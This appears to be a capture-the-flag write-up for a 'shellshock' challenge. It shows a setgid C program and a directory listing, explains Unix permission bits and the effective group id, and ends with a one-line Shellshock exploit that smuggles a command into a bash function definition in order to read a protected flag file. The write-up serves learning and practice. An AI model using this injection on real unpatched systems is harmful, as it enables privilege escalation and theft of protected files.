 # shellshock

### shellshock.c
``` c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

### file 
```
shellshock@prowl:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 114 root root             4096 May 19 15:59 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```
```
          link number   file group
             |              |
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
    |            |                     
file permission  owner
```
## 檔案屬性
```
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
```
`-`   : d for directory, - for file, l for link file\
rwx\
r-x : first is for file owner\
r-s : second is for user in this group\
r-x : the other\
where `s` stand for set owner user id on execution (s), so you can use root permission to execute this file temporary.


## what is getegid() ? and what egid do ?

[`see this first`](https://jvns.ca/blog/2017/11/20/groups/)\
`egid` stand for `effective group id` , `effetctive id ` is used for access check. 

## solution
The title of this challenge is `shellshock`, so let's google it first !
So use this hint :\
![shellshock](https://www.symantec.com/connect/sites/default/files/users/user-2598031/shellshock-command-diagram-600px_v2.png)

So :
```
env val='() { :;}; cat flag' ./shellshock
```
